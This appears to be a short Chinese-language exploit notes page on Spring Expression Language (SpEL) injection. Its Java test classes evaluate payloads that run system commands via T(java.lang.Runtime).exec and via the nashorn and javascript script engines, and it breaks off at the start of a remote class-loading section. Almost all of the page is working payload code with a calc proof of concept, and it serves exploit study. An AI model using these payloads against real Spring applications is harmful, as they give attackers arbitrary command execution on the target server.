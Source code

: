 <a name="O22Co"></a>
## Runtime
```java
public class Spelvultest {
    public static void main(String[] args) {
        String cmdStr = "T(java.lang.Runtime).getRuntime().exec('calc')";

        ExpressionParser parser = new SpelExpressionParser();//创建解析器
        Expression exp = parser.parseExpression(cmdStr);//解析表达式
        System.out.println( exp.getValue() );//弹出计算器
    }
}
```
runtime直接用T引用一次就行。
<a name="LSEHa"></a>
# scriptengine
```java
package org.example.vul;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;
import javax.script.*;

public class Spelvultest {
    public static void main(String[] args) {
        String cmdStr = "new javax.script.ScriptEngineManager().getEngineByName(\"nashorn\").eval(\"s=[1];s[0]='calc';java.lang.Runtime.getRuntime().exec(s);\")";

        ExpressionParser parser = new SpelExpressionParser();//创建解析器
        Expression exp = parser.parseExpression(cmdStr);//解析表达式
        System.out.println( exp.getValue() );//弹出计算器
    }
}
```
```java
package org.example.vul;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;
import javax.script.*;

public class Spelvultest {
    public static void main(String[] args) {
        String cmdStr = "new javax.script.ScriptEngineManager().getEngineByName(\"javascript\").eval(\"s=[1];s[0]='calc';java.lang.Runtime.getRuntime().exec(s);\")";

        ExpressionParser parser = new SpelExpressionParser();//创建解析器
        Expression exp = parser.parseExpression(cmdStr);//解析表达式
        System.out.println( exp.getValue() );//弹出计算器
    }
}
```
<a name="DMrZS"></a>
## urlclassloader
远程类加载
```java
package org.example.vul;

import org.springframework.expression.Expression;
```